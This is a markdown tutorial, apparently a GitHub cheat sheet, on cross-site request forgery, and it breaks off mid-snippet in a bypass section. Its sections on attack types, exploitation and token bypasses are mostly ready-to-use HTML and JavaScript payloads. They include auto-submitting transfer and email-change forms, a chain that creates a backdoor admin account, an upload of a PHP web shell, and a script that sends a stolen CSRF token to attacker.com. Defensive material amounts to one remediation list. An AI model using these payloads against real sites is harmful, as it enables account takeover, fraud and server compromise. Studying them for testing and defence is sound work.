

---

## 📑 **TABLE OF CONTENTS**

### **1. 🧠 Understanding CSRF**  
### **2. 🔐 How CSRF Works**  
### **3. 🎯 CSRF Attack Types**  

> **GET-Based CSRF**
> **POST-Based CSRF**
> **JSON CSRF**
> **Login CSRF**
> **Blind CSRF**  
 
### **4. ⚙️ CSRF Attack Requirements**  
### **5. 🛠️ CSRF Exploitation Techniques**  
### **6. 💥 Attack & Impact**  
### **7. 🔍 Finding CSRF Vulnerabilities**  
### **8. 🚧 CSRF Token Bypass Techniques**  
### **9. 🛡️ Prevention & Mitigation**  

---
---

# 🧠 **1. UNDERSTANDING CROSS-SITE REQUEST FORGERY (CSRF)**

---

### **🎯 What is CSRF?**

#### **CSRF (Cross-Site Request Forgery) is an attack where a malicious website forces a logged-in user’s browser to perform unwanted actions on another website without the user’s consent.**

---

### 🎯 **The Restaurant Analogy**

Imagine:

- 🏪 **You** = Logged-in user (at your bank)
- 🌐 **Your Browser** = Your messenger
- 🏦 **Bank Website** = Trusts you (has your session cookie)
- 👹 **Attacker** = Creates fake instructions

**Normal situation:**

```
You: "Transfer $100 to John"
✅ Browser sends request with your login cookie
✅ Bank sees: "This is really you!" (cookie proves it)
✅ Transfer completes
```

**CSRF Attack:**

```
Attacker: Creates fake website with hidden form
You: Visit attacker's site (while logged into bank)
Your Browser: "Oh, a form to bank.com! Let me submit it"
              "Here's the user's bank cookie too!" 🍪
Bank: "Cookie looks valid! Must be the real user!"
      "Transfer $10,000 to attacker ✅"
You: 😱 "I never did that!"
```

---

# XSS vs CSRF - Simple Comparison 🔐

---

## 📊 Complete Comparison Table

| `Feature`                    | `XSS (Cross-Site Scripting) 💉`        | `CSRF (Cross-Site Request Forgery) 🎭`                        |
| ---------------------------- | -------------------------------------- | ------------------------------------------------------------- |
| **What it is**               | Injects malicious code into website    | Tricks user into unwanted actions                             |
| **Simple explanation**       | "I put poison in the food"             | "I forge your signature"                                      |
| **Attacker's goal**          | Execute JavaScript in victim's browser | Make victim perform actions unknowingly                       |
| **Where code runs**          | Victim's browser                       | CSRF does not require JavaScript execution on the target site |
| **Attack location**          | On the SAME website victim uses        | From DIFFERENT website (attacker's site)                      |
| **What attacker controls**   | Victim's entire browser session        | Only specific requests                                        |
| **Can read responses?**      | ✅ YES (two-way)                        | ❌ NO (one-way)                                                |
| **Can steal data?**          | ✅ YES                                  | ❌ NO                                                          |
| **Can perform actions?**     | ✅ YES                                  | ✅ YES                                                         |
| **Requires authentication?** | ❌ NO                                   | ✅ YES (victim must be logged in)                              |
| **Severity**                 | 🔴 More serious                        | Severity depends on impact                                    |
| **Scope of actions**         | ALL actions user can do                | Only SOME actions (often forgotten endpoints)                 |

---
---

# 🔐 **2. HOW CSRF WORKS**

---

### **📊 Basic CSRF Attack Flow**

```HTML
🎯 COMPLETE ATTACK SEQUENCE:

   👤 Victim                    🌐 Legitimate Site           👹 Attacker
      │                               │                             │
      │ 1️⃣ Logs into site             │                             │
      ├──────────────────────────────►│                             │
      │                               │                             │
      │ 2️⃣ Receives session cookie    │                             │
      │◄──────────────────────────────┤                             │
      │   Set-Cookie: session=abc123  │                             │
      │                               │                             │
      │                               │                             │
      │ 3️⃣ Visits attacker's site     │                             │
      ├────────────────────────────────────────────────────────────►│
      │                               │                             │
      │ 4️⃣ Loads malicious page       │                             │
      │◄────────────────────────────────────────────────────────────┤
      │   <form action="bank.com/transfer">                         │
      │   <input name="to" value="attacker">                        │
      │   <input name="amount" value="1000">                        │
      │   </form>                                                   │
      │   <script>document.forms[0].submit()</script>               │
      │                               │                             │
      │ 5️⃣ Browser auto-submits form  │                             │
      │   (includes victim's cookie!) │                             │
      ├──────────────────────────────►│                             │
      │   POST /transfer              │                             │
      │   Cookie: session=abc123      │                             │
      │   to=attacker&amount=1000     │                             │
      │                               │                             │
      │                               │ 6️⃣ Validates cookie         │
      │                               │    (looks legitimate!)      │
      │                               │    Processes transfer       │
      │                               │                             │
      │ 7️⃣ Transfer complete!         │                             │
      │◄──────────────────────────────┤                             │
      │                               │                             │
      │                               │ 8️⃣ Money stolen! 💰        │
      │                               │───────────────────────────► │
```

---

### **💀 Real-World Example: Bank Transfer**


```
You visit your bank → Click "Transfer Money"
↓
Your Browser sends:
  POST /transfer
  Cookie: session=abc123  🍪
  to=John&amount=100
↓
Bank: "Cookie valid! User wants to transfer money"
✅ Transfer complete!
```

### **CSRF Attack** (User Doesn't Know)

```
🎭 Step 1: You're logged into bank.com
           (Cookie stored in browser)

👹 Step 2: Attacker creates evil-site.com with:
           <form action="bank.com/transfer" method="POST">
             <input name="to" value="attacker" />
             <input name="amount" value="10000" />
           </form>
           <script>document.forms[0].submit()</script>

📧 Step 3: Attacker sends you email:
           "Click here for FREE iPhone!" 
           → Links to evil-site.com

👆 Step 4: You click link → Visit evil-site.com

🌐 Step 5: Your browser:
           - Loads the page
           - Sees form pointing to bank.com
           - Auto-submits form
           - INCLUDES YOUR BANK COOKIE! 🍪

🏦 Step 6: Bank receives:
           POST /transfer
           Cookie: session=abc123  ← Your valid cookie!
           to=attacker&amount=10000

🏦 Step 7: Bank thinks:
           "Cookie is valid = This is the real user"
           ✅ Approves transfer

💥 Result: $10,000 stolen!
```

**Why It Works:**

```
Key Problem: Browser AUTOMATICALLY sends cookies
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

When you visit evil-site.com:
  - Form points to bank.com
  - Browser sees: "Oh, making request to bank.com"
  - Browser thinks: "I should send bank.com cookies!"
  - Browser includes: Cookie: session=abc123
  - Bank sees valid cookie → Trusts request
```

---
---

# 🎯 **3. CSRF ATTACK TYPES**

---

## 1️⃣ **GET-Based CSRF**

### **📖 Definition**

#### **The simplest form of CSRF where state-changing actions are performed using GET requests.**

---

### **🔄 How It Works**

```HTTP
🎯 VULNERABILITY:
Application uses GET for state changes (bad practice!)

Example vulnerable endpoint:
https://vulnerable-site.com/delete-account?confirm=yes
https://vulnerable-site.com/change-email?email=attacker@evil.com
https://vulnerable-site.com/transfer?to=999&amount=1000
```

### **💀 Attack Vectors**

**Vector 1: Image Tag**

```html
<!-- Attacker's website -->


<!-- ⚠️ Browser automatically loads image = executes request -->
```

**Vector 2: Script Tag**

```html
<script src="https://vulnerable-site.com/api/transfer?to=999&amount=1000">
</script>
```

**Vector 3: Link Tag**

```html
<link rel="stylesheet" 
      href="https://vulnerable-site.com/change-password?new=hacked123" />
```

**Vector 4: Iframe**

```html
<iframe src="https://vulnerable-site.com/admin/delete-user?id=5" 
        style="display: none;">
</iframe>
```

**Vector 5: Direct Link**

```html
<a href="https://vulnerable-site.com/logout">Click for free prize!</a>
```

### **📊 Characteristics**

```
✅ Simplest CSRF attack
✅ No form needed
✅ Works with , <script>, <iframe> tags
✅ Completely invisible to victim
❌ Should NEVER be used for state changes (HTTP standard)
⚠️ Considered BAD practice
```

---

## 2️⃣ **POST-Based CSRF**

### **📖 Definition**

#### **CSRF attack that exploits POST requests, requiring form submission (auto or manual).**

---

### **🔄 Attack Methods**

**Method 1: Auto-Submit Form**

```html
<!DOCTYPE html>
<html>
<body onload="document.forms[0].submit()">
    <h1>Loading...</h1>
    
    <form action="https://vulnerable-site.com/change-email" 
          method="POST" 
          style="display: none;">
        <input type="hidden" name="email" value="attacker@evil.com" />
    </form>
</body>
</html>
```

**Method 2: JavaScript Auto-Submit**

```html
<html>
<body>
    <form id="csrf-form" 
          action="https://vulnerable-site.com/transfer" 
          method="POST">
        <input type="hidden" name="to" value="attacker-account" />
        <input type="hidden" name="amount" value="5000" />
    </form>
    
    <script>
        document.getElementById('csrf-form').submit();
    </script>
</body>
</html>
```

**Method 3: Hidden in Iframe**

```html
<body onload="document.bank_form.submit()">
    <form action="https://bank.com/transfer" 
          method="POST" 
          name="bank_form" 
          style="display: none;" 
          target="hidden_results">
        <input type="text" name="amount" value="10000" />
        <input type="text" name="to_account" value="attacker" />
    </form>
    
    <!-- Results hidden from victim -->
    <iframe name="hidden_results" style="display: none;"></iframe>
</body>
```

### **📊 Characteristics**

```
✅ Most common CSRF attack type
✅ Works with forms
✅ Can be completely hidden
✅ Auto-submits via JavaScript
⚠️ Requires form creation
⚠️ Victim sees brief page load
```

---

## 3️⃣ **JSON CSRF**

### **📖 Definition**

#### **CSRF attacks targeting endpoints that accept JSON data, often requiring Content-Type bypass.**

---

### **🔄 The Challenge**

```
🎯 PROBLEM:
Most JSON endpoints expect:
Content-Type: application/json

⚠️ CSRF is blocked not by CORS itself, but by non-simple requests triggering preflight.
Misconfigured APIs can still be CSRF-able.

💡 SOLUTION:
Find ways to bypass Content-Type restrictions
```

### **💀 Bypass Techniques**

**Technique 1: Content-Type Tolerance**

```html
<!-- If server accepts any Content-Type -->
<form action="https://api.example.com/update" 
      method="POST" 
      enctype="text/plain">
    <input name='{"email":"attacker@evil.com", "ignore":"' 
           value='"}' />
</form>

<!-- Sends as text/plain, server might parse as JSON -->
```

**Technique 2: Form-Encoded JSON**

```html
<form action="https://api.example.com/api/user/update" 
      method="POST">
    <input type="hidden" 
           name='{"email":"attacker@evil.com"}' 
           value="" />
</form>
```

**Technique 3: Charset Bypass**

```html
<form action="https://api.example.com/update" 
      method="POST" 
      enctype="application/x-www-form-urlencoded; charset=UTF-8; /json">
    <input type="hidden" name='{"action":"delete"}' />
</form>
```

### **📊 Characteristics**

```
✅ Targets modern API endpoints
✅ Requires Content-Type bypass
⚠️ More complex than traditional CSRF
⚠️ May need Flash or special techniques
```

---

## 4️⃣ **LOGIN CSRF**

### **📖 Definition**

#### **A special form of CSRF where the attacker forces the victim to log into the attacker's account.**

---

### **🔄 How It Works**

```
🎯 ATTACK FLOW:

1️⃣ Attacker creates account on target site
   Username: attacker
   Password: attackerpass123

2️⃣ Attacker creates login CSRF page
   Forces victim to log in as "attacker"

3️⃣ Victim uses site thinking it's their account
   • Adds credit card info
   • Enters personal data
   • Stores sensitive information

4️⃣ Attacker logs back into their own account
   • Views victim's data
   • Steals credit cards
   • Harvests personal info
```

### **💀 Attack Example**

```html
<!-- Attacker's malicious page -->
<html>
<body onload="document.forms[0].submit()">
    <form action="https://shopping.com/login" method="POST">
        <input type="hidden" name="username" value="attacker" />
        <input type="hidden" name="password" value="attackerpass123" />
    </form>
</body>
</html>
```

**Attack Scenario:**

```
📧 Victim receives email: "Check out this cool product!"
👆 Clicks link → Auto-logged in as attacker
🛒 Victim adds items to cart
💳 Victim enters credit card info (thinking it's their account)
👹 Attacker logs in later → Sees victim's credit card!
```

### **📊 Real-World Impact**

```
🎯 SENSITIVE DATA EXPOSURE:
├── Credit card numbers
├── Billing addresses
├── Phone numbers
├── Personal preferences
├── Shopping history
└── Saved payment methods

🎯 BUSINESS IMPACT:
├── Reputation damage
├── Legal liability
├── GDPR violations
└── Loss of customer trust
```

---

## 5️⃣ **BLIND CSRF**

### **📖 Definition**

#### **CSRF vulnerabilities where the attacker cannot directly see if the attack was successful (similar to Blind XSS).**

---

### **🎯 Common Scenarios**

```
🔴 BLIND CSRF LOCATIONS:

1️⃣ 📋 Contact Forms
   • Attacker submits CSRF in contact form
   • Admin views submission → CSRF executes
   • Changes admin password/email

2️⃣ 🎫 Support Tickets
   • CSRF payload in ticket description
   • Support agent opens ticket → attack triggers
   • Agent's account compromised

3️⃣ 📊 Admin Panels
   • CSRF in user-submitted content
   • Admin reviews content → gets CSRFed
   • Admin account taken over

4️⃣ 💬 Internal Chat/Messages
   • CSRF in message content
   • Recipient views message → attack executes
```

### **💀 Testing Blind CSRF**

```html
<!-- Attacker's payload in support ticket -->


<!-- Or using form -->
<form id="csrf" action="https://internal.company.com/admin/add-user" 
      method="POST">
    <input type="hidden" name="username" value="backdoor" />
    <input type="hidden" name="password" value="hacked123" />
    <input type="hidden" name="role" value="admin" />
</form>
<script>document.getElementById('csrf').submit();</script>
```

### **🔔 Detection Methods**

```
💡 HOW TO KNOW IF IT WORKED:

1️⃣ Out-of-Band Interaction
   • Use Burp Collaborator
   • Include callback URL
   • Monitor for HTTP requests

2️⃣ Email Notifications
   • If action sends email
   • Check for confirmation emails

3️⃣ Account Changes
   • Try logging in with new creds
   • Check if account created
   • Verify if action completed

4️⃣ Side-Channel Indicators
   • Time-based detection
   • Response length
   • Error messages
```

---
---

# ⚙️ **4. CSRF ATTACK REQUIREMENTS**

---

### **🎯 Three Essential Conditions**

```
╔══════════════════════════════════════════════════════╗
║        FOR CSRF TO BE POSSIBLE                       ║
╠══════════════════════════════════════════════════════╣
║                                                      ║
║ 1️⃣ RELEVANT ACTION                                   ║
║    ✅ Privileged action (modify permissions)         ║
║    ✅ Action on user data (change password)          ║
║    ✅ Financial transaction (transfer funds)         ║
║    ✅ State-changing request (delete account)        ║
║                                                      ║
║ 2️⃣ COOKIE-BASED SESSION HANDLING                     ║
║    ✅ App uses cookies for authentication            ║
║    ✅ No additional validation mechanism             ║
║    ✅ Cookies sent automatically                     ║
║    ❌ No CSRF tokens present                         ║
║                                                      ║
║ 3️⃣ NO UNPREDICTABLE PARAMETERS                       ║
║    ✅ All parameters are guessable                   ║
║    ✅ No random tokens required                      ║
║    ✅ No current password needed                     ║
║    ❌ Request is fully reproducible                  ║
╚══════════════════════════════════════════════════════╝
```

### **✅ Vulnerable vs ❌ Not Vulnerable**

**✅ VULNERABLE REQUEST:**

```http
POST /change-email HTTP/1.1
Host: vulnerable-site.com
Cookie: session=abc123
Content-Type: application/x-www-form-urlencoded

email=new@email.com

🎯 WHY VULNERABLE:
• Only uses session cookie for auth
• No CSRF token
• All parameters predictable
• No current password required
```

**❌ NOT VULNERABLE REQUEST:**

```http
POST /change-email HTTP/1.1
Host: secure-site.com
Cookie: session=abc123
Content-Type: application/x-www-form-urlencoded

email=new@email.com
&current_password=UserPassword123
&csrf_token=7hs9dk2jf8gh3k9sl4mf

🔒 WHY NOT VULNERABLE:
• Requires current password (unpredictable)
• Has CSRF token (unpredictable)
• Attacker cannot forge this request
```

---
---

# 🛠️ **5. CSRF EXPLOITATION TECHNIQUES**

---

### **🎯 Delivery Methods**

```
🔴 HOW ATTACKERS DELIVER CSRF ATTACKS:

1️⃣ 📧 EMAIL PHISHING
   Subject: "Your account will be deleted!"
   Body: Click here to prevent this
   Link: http://attacker.com/csrf.html

2️⃣ 💬 SOCIAL MEDIA MESSAGES
   "Check out this funny video!"
   Link contains CSRF payload

3️⃣ 📱 SMS PHISHING (Smishing)
   "Your package is ready for pickup"
   Link triggers CSRF

4️⃣ 📰 FORUM/BLOG COMMENTS
   Malicious link in comment
   Auto-executes when viewed

5️⃣ 📺 MALICIOUS ADVERTISEMENTS
   Compromised ad network
   Serves CSRF payload

6️⃣ 🎮 WATERING HOLE ATTACKS
   Compromise popular website
   Inject CSRF into pages

7️⃣ 📷 QR CODES
   QR code → CSRF URL
   User scans → attack executes
```

### **💣 Advanced CSRF Payloads**

**Payload 1: Multi-Step Transaction**

```html
<!-- Step 1: Change email -->
<iframe id="step1" style="display:none;"></iframe>
<form id="form1" action="https://site.com/change-email" 
      method="POST" target="step1">
    <input name="email" value="attacker@evil.com" />
</form>

<script>
// Submit step 1
document.getElementById('form1').submit();

// Wait 2 seconds, then step 2
setTimeout(function() {
    // Step 2: Request password reset
    var form2 = document.createElement('form');
    form2.method = 'POST';
    form2.action = 'https://site.com/reset-password';
    document.body.appendChild(form2);
    form2.submit();
}, 2000);
</script>
```

**Payload 2: CSRF with File Upload**

```html
<form action="https://site.com/upload-avatar" 
      method="POST" 
      enctype="multipart/form-data">
    <input type="file" name="avatar" />
    <input type="hidden" name="filename" value="backdoor.php" />
</form>

<script>
// Create malicious file blob
var blob = new Blob(['<?php system($_GET["cmd"]); ?>'], 
                    {type: 'application/x-php'});
var file = new File([blob], 'backdoor.php');

// Create FormData
var formData = new FormData();
formData.append('avatar', file);

// Submit
fetch('https://site.com/upload-avatar', {
    method: 'POST',
    body: formData,
    credentials: 'include'  // Include cookies
});
</script>
```

**Payload 3: CSRF Chain**

```html
<!-- Chain multiple CSRFs for complete takeover -->
<script>
// 1. Change email
fetch('https://site.com/api/change-email', {
    method: 'POST',
    credentials: 'include',
    headers: {'Content-Type': 'application/x-www-form-urlencoded'},
    body: 'email=attacker@evil.com'
});

// 2. Request password reset (sent to new email)
setTimeout(() => {
    fetch('https://site.com/api/reset-password', {
        method: 'POST',
        credentials: 'include',
        headers: {'Content-Type': 'application/x-www-form-urlencoded'},
        body: 'email=attacker@evil.com'
    });
}, 3000);

// 3. Add attacker as admin (if victim is admin)
setTimeout(() => {
    fetch('https://site.com/api/admin/add-user', {
        method: 'POST',
        credentials: 'include',
        headers: {'Content-Type': 'application/json'},
        body: JSON.stringify({
            username: 'backdoor',
            role: 'admin',
            password: 'hacked123'
        })
    });
}, 6000);
</script>
```

---
---

# 💥 **6. ATTACK  &  IMPACT**

---

### **📊 Attack Impact Matrix**

```
╔══════════════════════════════════════════════════════╗
║     WHAT ATTACKERS CAN DO WITH CSRF                  ║
╠══════════════════════════════════════════════════════╣
║                                                      ║
║ 💰 FINANCIAL ACTIONS         🔴 CRITICAL            ║
║ ├── Transfer funds                                   ║
║ ├── Make purchases                                   ║
║ ├── Change payment methods                           ║
║ └── Withdraw money                                   ║
║                                                      ║
║ 👤 ACCOUNT TAKEOVER          🔴 CRITICAL            ║
║ ├── Change email address                             ║
║ ├── Change password                                  ║
║ ├── Add admin users                                  ║
║ └── Modify 2FA settings                              ║
║                                                      ║
║ 🔑 PRIVILEGE ESCALATION      🔴 CRITICAL            ║
║ ├── Promote to admin                                 ║
║ ├── Modify permissions                               ║
║ ├── Grant access                                     ║
║ └── Create backdoor accounts                         ║
║                                                      ║
║ 📝 DATA MODIFICATION         🟠 HIGH                ║
║ ├── Delete content                                   ║
║ ├── Modify profile                                   ║
║ ├── Change settings                                  ║
║ └── Update records                                   ║
║                                                      ║
║ 📧 SOCIAL ENGINEERING        🟡 MEDIUM              ║
║ ├── Send messages                                    ║
║ ├── Post content                                     ║
║ ├── Share malicious links                            ║
║ └── Spread malware                                   ║
╚══════════════════════════════════════════════════════╝
```

---

### **📊 Impact by Application Type**

```
🏦 BANKING/FINANCIAL:
├── Money transfer
├── Bill payment
├── Account access
├── Credit card changes
└── 🔴 CRITICAL - Immediate financial loss

🛒 E-COMMERCE:
├── Unauthorized purchases
├── Address modification
├── Payment method changes
├── Order manipulation
└── 🔴 HIGH - Financial & privacy impact

🏥 HEALTHCARE:
├── Medical record access
├── Appointment changes
├── Prescription modifications
├── Insurance updates
└── 🔴 CRITICAL - HIPAA violations

📱 SOCIAL MEDIA:
├── Post malicious content
├── Send spam messages
├── Modify privacy settings
├── Delete content
└── 🟠 MEDIUM - Reputation & privacy

🏢 ENTERPRISE/SaaS:
├── User management
├── Permission changes
├── Data modification
├── Configuration changes
└── 🔴 HIGH - Business disruption
```

---
---

# 🔍 **7. FINDING CSRF VULNERABILITIES**

---

### **📊 Testing Methodology**

```
╔══════════════════════════════════════════════════════╗
║        CSRF TESTING WORKFLOW                         ║
╚══════════════════════════════════════════════════════╝

🎯 PHASE 1: RECONNAISSANCE
──────────────────────────
├── 🗺️ Map all state-changing actions
├── 🔍 Identify authentication mechanism
├── 📊 Document cookie usage
├── 🔬 Check for CSRF tokens
└── 📋 Review security headers

🎯 PHASE 2: INITIAL TESTING
───────────────────────────
├── 🧪 Submit legitimate requests
├── 👁️ Analyze request/response
├── 🔒 Check for CSRF tokens
├── 🍪 Identify cookie attributes
└── 📝 Document all findings

🎯 PHASE 3: EXPLOITATION
────────────────────────
├── 🛠️ Create proof-of-concept
├── 🚧 Test token bypasses
├── 🌐 Test different methods (GET/POST)
├── ✅ Verify successful execution
└── 🔍 Check for side effects

🎯 PHASE 4: VALIDATION
──────────────────────
├── 🎯 Confirm reproducibility
├── 📊 Test different browsers
├── ⬆️ Test privilege levels
├── 📈 Assess full impact
└── ⚠️ Assign severity rating
```

### **🔍 Identification Checklist**

```
☐ Login to application
☐ Identify all state-changing actions:
   ☐ Change email/password
   ☐ Transfer money
   ☐ Delete content
   ☐ Update profile
   ☐ Add/remove users
   ☐ Modify settings
   ☐ Make purchases

☐ For each action, check:
   ☐ Does it use POST or GET?
   ☐ Is there a CSRF token?
   ☐ Are cookies used for auth?
   ☐ Is SameSite attribute set?
   ☐ Is Referer checked?
   ☐ Are custom headers required?

☐ Test basic CSRF:
   ☐ Remove CSRF token
   ☐ Use another user's token
   ☐ Change request method
   ☐ Test without Referer
   ☐ Try different Content-Type

☐ Advanced testing:
   ☐ Token reuse
   ☐ Token in different sessions
   ☐ SameSite bypass
   ☐ Clickjacking assistance
```

### **🛠️ Testing Tools**

```
🔧 MANUAL TESTING TOOLS:
├── Burp Suite (Repeater, CSRF PoC Generator)
├── OWASP ZAP
├── Browser DevTools
├── Postman
└── cURL

🤖 AUTOMATED SCANNERS:
├── Burp Suite Pro (Active Scanner)
├── OWASP ZAP
├── Acunetix
├── Netsparker
└── Arachni

🌐 BROWSER EXTENSIONS:
├── Cookie Editor
├── EditThisCookie
├── User-Agent Switcher
└── HTTP Header Live

📝 CSRF PoC GENERATORS:
├── Burp Suite CSRF PoC Generator
├── OWASP ZAP
├── Online CSRF PoC generators
└── Custom HTML forms
```

### **🧪 Testing Procedure**

**Step 1: Capture Legitimate Request**

```http
POST /change-email HTTP/1.1
Host: example.com
Cookie: session=abc123xyz
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

email=victim@example.com
```

**Step 2: Generate CSRF PoC**

```html
<!-- Using Burp's CSRF PoC Generator -->
<html>
  <body>
    <form action="https://example.com/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@evil.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

**Step 3: Test in Different Browser**

```
🎯 TESTING STEPS:

1. Login to target site in Browser A (e.g., Chrome)
2. Open PoC HTML file in SAME browser (different tab)
3. PoC auto-submits
4. Check if action succeeded:
   ✅ Email changed = VULNERABLE
   ❌ Email not changed = Protected

Alternative:
1. Login to target site in Browser A
2. Save PoC to local file: csrf.html
3. Open csrf.html in Browser A
4. Verify if attack worked
```

**Step 4: Document Findings**

```
📋 CSRF VULNERABILITY REPORT:

Vulnerability: Cross-Site Request Forgery
Severity: High/Critical
Endpoint: POST /change-email
Method: POST

DESCRIPTION:
The email change functionality does not implement 
CSRF protection, allowing attackers to change 
victim's email address.

STEPS TO REPRODUCE:
1. Victim logs into example.com
2. Attacker tricks victim to visit malicious page
3. Page auto-submits form to /change-email
4. Victim's email changed without consent

IMPACT:
• Account takeover possible
• Can change to attacker's email
• Request password reset
• Full account compromise

REMEDIATION:
• Implement CSRF tokens
• Add SameSite cookie attribute
• Validate Origin/Referer headers
• Require current password
```

---
---

# 🚧 **8. CSRF TOKEN BYPASS TECHNIQUES**

---

### **1️⃣ Token Validation Issues**

**Bypass 1: Remove Token Completely**

```http
⚠️ ORIGINAL REQUEST:
POST /change-email HTTP/1.1
Host: vulnerable-site.com
Cookie: session=abc123
Content-Type: application/x-www-form-urlencoded

email=new@email.com&csrf_token=7hs9dk2jf8gh3k9sl4mf

✅ BYPASS - Remove token:
POST /change-email HTTP/1.1
Host: vulnerable-site.com
Cookie: session=abc123
Content-Type: application/x-www-form-urlencoded

email=attacker@evil.com

💥 RESULT:
Many apps only validate token IF present
If missing entirely → validation skipped!
```

**Bypass 2: Use Empty Token Value**

```http
✅ BYPASS - Empty token:
POST /change-email HTTP/1.1
Host: vulnerable-site.com
Cookie: session=abc123

email=attacker@evil.com&csrf_token=

💥 APPLICATION LOGIC:
if (csrf_token != "" && csrf_token != expected_token) {
    reject();  // Only checks if token is non-empty!
}
```

**Bypass 3: Change Request Method**

```http
⚠️ ORIGINAL (Protected):
POST /change-email HTTP/1.1
csrf_token=abc123&email=new@email.com

✅ BYPASS - Change to GET:
GET /change-email?email=attacker@evil.com HTTP/1.1
Cookie: session=abc123

💥 RESULT:
App validates CSRF for POST but not GET
Simple method change bypasses protection!
```

---

### **2️⃣ Token Reuse & Session Issues**

**Bypass 4: Use Your Own Token**

```http
🎯 SCENARIO:
App generates token but doesn't tie it to session

✅ BYPASS STEPS:
1. Create your own account
2. Extract your CSRF token: YOUR_TOKEN
3. Use YOUR_TOKEN in attack against victim

POST /change-email HTTP/1.1
Cookie: victim_session=xyz789
csrf_token=YOUR_TOKEN&email=attacker@evil.com

💥 RESULT:
Token is valid, but for wrong user
App accepts it anyway!
```

**Bypass 5: Token Reuse**

```http
✅ BYPASS - Reuse old token:
1. Capture legitimate token from response
2. Use same token in multiple requests
3. Token never expires or rotates

csrf_token=static_token_123
```

---

### **3️⃣ Referer/Origin Header Bypass**

**Bypass 6: Remove Referer Header**

```html
<!-- Add meta tag to prevent Referer -->
<meta name="referrer" content="no-referrer">

<form action="https://vulnerable-site.com/transfer" method="POST">
    <input type="hidden" name="amount" value="1000" />
    <input type="hidden" name="to" value="attacker" />
</form>

<script>document.forms[0].submit();</script>

💥 RESULT:
App only validates Referer IF present
No Referer sent = validation bypassed
```

**Bypass 7: Referer Regex Bypass**

```
🎯 APP CHECKS:
if (referer.contains("bank.com")) { allow(); }

✅ BYPASS OPTIONS:
https://attacker.com/csrf.html?ref=bank.com
https://bank.com.attacker.com/
https://attacker.com/bank.com/
 <!-- Sets Referer -->

💥 RESULT:
Weak regex matching allows bypass
```

---

### **4️⃣ Content-Type Bypass**

**Bypass 8: Simple Request Exploitation**

```http
⚠️ ORIGINAL (CORS protected):
POST /api/update HTTP/1.1
Content-Type: application/json
{"email":"new@email.com"}

✅ BYPASS - Use text/plain:
POST /api/update HTTP/1.1
Content-Type: text/plain

{"email":"attacker@evil.com"}

💥 RESULT:
• text/plain is "simple request"
• No CORS preflight
• Server might still parse as JSON
```

**Bypass 9: Charset Trick**

```http
POST /api/update HTTP/1.1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8; application/json

email=attacker@evil.com

💥 Some parsers only check first Content-Type
```

---

### **5️⃣ Double Submit Cookie Bypass**

**Bypass 10: Cookie Setting**

```
🎯 DOUBLE SUBMIT COOKIE:
Server checks: cookie_token == request_token

✅ BYPASS - Control both:
1. Set victim's cookie via subdomain
   document.cookie = "csrf_token=attacker_value; domain=.target.com"
2. Send matching token in request
   csrf_token=attacker_value

💥 RESULT:
Both match! Attack succeeds!
```

**Bypass 11: Session Fixation**

```html
<!-- Step 1: Fix the CSRF token cookie -->
<script>
document.cookie = "csrf_token=fixed_value; domain=.target.com";
</script>

<!-- Step 2: Submit with same token -->
<form action="https://target.com/transfer" method="POST">
    <input type="hidden" name="csrf_token" value="fixed_value" />
    <input type="hidden" name="amount" value="1000" />
</form>
```

---

### **6️⃣ SameSite Cookie Bypass**

**Bypass 12: GET Method (Lax Bypass)**

```html
<!-- SameSite=Lax allows GET top-level navigation -->
<a href="https://bank.com/transfer?to=attacker&amount=1000">
    Click for free prize!
</a>

<!-- Or auto-redirect -->
<script>
window.location = "https://bank.com/transfer?to=attacker&amount=1000";
</script>

💥 RESULT:
Lax allows cookies on GET navigation
Works if endpoint accepts GET!
```

**Bypass 13: 2-Minute Window (Chrome)**

```
🎯 CHROME BEHAVIOR:
⚠️ Browser-specific behavior, unreliable for production exploits

✅ BYPASS:
1. Trigger cookie refresh
2. Within 2 minutes, send CSRF
3. Cookie is included!

💥 Temporary mitigation workaround
```

**Bypass 14: Subdomain Control**

```
🎯 IF ATTACKER CONTROLS:
subdomain.target.com

✅ BYPASS:
SameSite checks "site" not "origin"
https://subdomain.target.com = same site
https://target.com = same site

Form on subdomain.target.com can CSRF target.com
```

---

### **7️⃣ Advanced Bypasses**

**Bypass 15: Clickjacking Assistance**

```html
<!-- Combine CSRF + Clickjacking -->
<style>
iframe {
    position: absolute;
    top: 0;
    left: 0;
    opacity: 0.0001;
    z-index: 10000;
}
button {
    position: absolute;
    top: 200px;
    left: 300px;
}
</style>

<iframe src="https://target.com/transfer-page"></iframe>
<button>Click for free prize!</button>

💥 RESULT:
Clickjacking can assist CSRF attacks when protections rely on user interaction but is not a universal bypass.
```

**Bypass 16: XSS → CSRF Token Theft**

```javascript
// If XSS exists, steal CSRF token
<script>
var token = document.querySelector('[name=csrf_token]').value;
fetch('https://attacker.com/collect?token=' + token);

